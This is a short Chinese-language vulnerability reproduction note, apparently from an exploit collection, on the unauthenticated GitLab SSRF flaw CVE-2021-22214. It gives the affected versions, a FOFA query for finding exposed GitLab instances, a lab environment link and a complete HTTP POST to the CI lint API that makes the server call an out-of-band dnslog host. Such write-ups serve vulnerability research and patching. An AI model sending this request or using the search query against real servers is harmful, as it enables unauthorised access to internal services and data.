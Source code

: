 # GitLab SSRF漏洞 CVE-2021-22214

## 漏洞描述

GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。

## 漏洞影响

```
Gitlab > 10.5
```

## FOFA

```
app="GitLab"
```

## 环境搭建

http://vulfocus.fofa.so/

![](./images/202202091900273.png)



## 漏洞复现

登录页面如下



![](./images/202202091900222.png)



发送请求包

```plain
POST /api/v4/ci/lint HTTP/1.1
Host: 
User-Agent: python-requests/2.25.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/json
Content-Length: 111

{"include_merged_yaml": true, "content": "include:\n  remote: http://965qaw.dnslog.cn/api/v1/targets?test.yml"}
```



![](./images/202202091900121.png)